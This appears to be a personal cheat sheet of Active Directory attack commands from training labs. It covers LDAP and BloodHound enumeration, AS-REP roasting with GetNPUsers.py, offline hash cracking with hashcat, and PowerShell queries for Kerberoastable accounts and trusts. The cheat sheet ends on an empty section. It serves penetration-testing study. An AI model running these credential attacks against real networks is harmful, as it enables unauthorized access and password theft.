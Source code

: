 #### Domain Admins
```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```
#### Privileged Users
```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```
## ASREPRoasting
### Linux
```
root@kali:~# GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -dc-ip 10.10.10.175
```
We could get a list of the users from the website or from enum4linux
#### Cracking the Hash Offline with Hashcat
```
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
you can add -format hashcat to the above command
## ldapsearch
If you have valid credentials you can use ldapdomaindump to get the info 
```
oxdf@hacky$ ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ldap/
```
The user and password is operator in the above example
## You can run bloodhound-python if nothing works 
```
bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all
```
# Credentialed Enumeration - from Windows
## Get-Module
```
Import-Module ActiveDirectory
```
## ActiveDirectory PowerShell module
### Get Domain Info
This will print out helpful information like the domain SID, domain functional level, any child domains
```
PS C:\htb> Get-ADDomain
```
### get a listing of accounts that may be susceptible to a Kerberoasting attack
```
Get-ADUser
```
filtering for accounts with the ServicePrincipalName
```
PS C:\htb> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
### Checking For Trust Relationships
```
PS C:\htb> Get-ADTrust -Filter *
```
### Group Enumeration
```
```